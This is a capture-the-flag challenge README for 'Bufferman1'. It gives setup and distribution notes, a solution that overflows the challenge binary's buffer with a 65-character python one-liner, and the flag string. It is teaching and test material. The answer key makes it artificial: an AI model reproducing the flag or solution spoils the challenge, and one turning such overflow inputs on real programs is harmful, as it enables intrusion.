 # Bufferman1

## Question Text
I am stuck in a room and the only way to get out is to change the changethis variable but...?!??!!?

Creator - Nicolas Teo 

## Setup Guide 
Host bufferman1 on a port and have bufferman1 and flag.txt in the same folder. 

## Distribution 
Distribute test.c

## Solution
Simple buffer overflow exploit. For buffer to overflow, 65 characters are needed.
echo `python3 -c 'print("A"*64)'` | ./bufferman1 would not work. 
echo `python3 -c 'print("A"*65)'` | ./bufferman1 works.

## Flag 
HNF(s1mp1e_buff3r_0v3rfl0w)
